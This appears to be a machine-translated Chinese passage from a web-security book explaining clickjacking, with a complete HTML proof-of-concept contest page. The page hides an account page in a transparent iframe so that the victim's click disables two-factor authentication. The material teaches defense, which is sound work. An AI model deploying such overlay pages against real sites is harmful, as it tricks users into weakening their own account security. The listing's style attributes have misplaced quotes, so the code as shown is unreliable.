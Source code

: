 点击劫持

点击劫持不涉及 XSS 或 CSRF 的攻击；提交到您的应用程序的请求是完全合法的，您生成的 web 页面上的任何内容都没有以任何方式被修改。被“劫持”的是一个按钮点击。

它的工作原理是这样的:攻击者在你的网站上找到一个页面，只需点击一个按钮就可以实现想要的动作，比如图 6-4 中的账户页面，有一个禁用 2FA 的按钮。

![9781430260073_Fig06-04.jpg](images/9781430260073_Fig06-04.jpg)

[图 6-4](#_Fig4) 。带有禁用 2FA 按钮的表单

然后攻击者精心设计另一个页面，在与 Disable 2FA 按钮相同的位置放置一个诱人的按钮，如图[图 6-5](#Fig5) 所示。

![9781430260073_Fig06-05.jpg](images/9781430260073_Fig06-05.jpg)

[图 6-5](#_Fig5) 。竞赛参赛页面覆盖账号页面

[图 6-6](#Fig6) 显示了重叠的两个页面，所以你可以看到输入比赛和禁用 2FA 按钮是重合的。

![9781430260073_Fig06-06.jpg](images/9781430260073_Fig06-06.jpg)

[图 6-6](#_Fig6) 。竞赛参赛页面覆盖的帐户页面

诀窍是:竞赛入口页面也加载帐户页面，但是是透明的`iframe`，使它不可见，但是仍然是活动的，因为它在上面。当用户认为他或她点击进入比赛时，实际点击进入顶部的透明页面，这禁用了 2FA。由于请求是针对合法页面的，并且用户已经登录，因此攻击成功。当然，只有在进入大赛的同时登录你的应用的用户才会受到影响，但是如果你的应用和大赛都非常受欢迎，那么会有几十万的用户。如果攻击者以某种方式获得了密码，没有 2FA，他或她就可以闯入。

竞赛页面的代码非常简单。它从我的开发系统(`localhost`)加载帐户页面，但实际上它将从`fr-butterfly.org`加载，或者从俱乐部的域加载。它显示在[清单 6-2](#list2) 中，你会喜欢自己弄清楚它。(提示:诡计以粗体显示。)就是这么简单，好吓人。

***[清单 6-2](#_list2)*** 。点击劫持比赛-参赛页面的 HTML】

```php
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset=utf-8>
<title>Contest Entry</title>
</head>
<body>
<div style=' z-index:2 ' position:absolute; top:0; left:0;
  width:70%; height:70%'>
<iframe src=' http://localhost/EPMADD/06-PHP/account.php '
style=' opacity:0 ' width=100% height=100%></iframe>
</div>
<div style=' z-index:1 ' position:absolute; top:0; left:0;
  width:70%; height:70%; background-color:yellow;'>
<div style='margin-left: 10px;'>
<p style='font-size:30px; font-style:italic;'>
Movie Contest Promotion
<p style='font-size: 18px;'>
To enter the contest and receive
<br>
two free movie tickets, click the
<br>
button below.
<br>
(We already have your email.)
<p style='position:absolute; top:272px; left:20px ;'>
<button>Enter Contest</button>
</div>
</div>
</body>
</html>
```
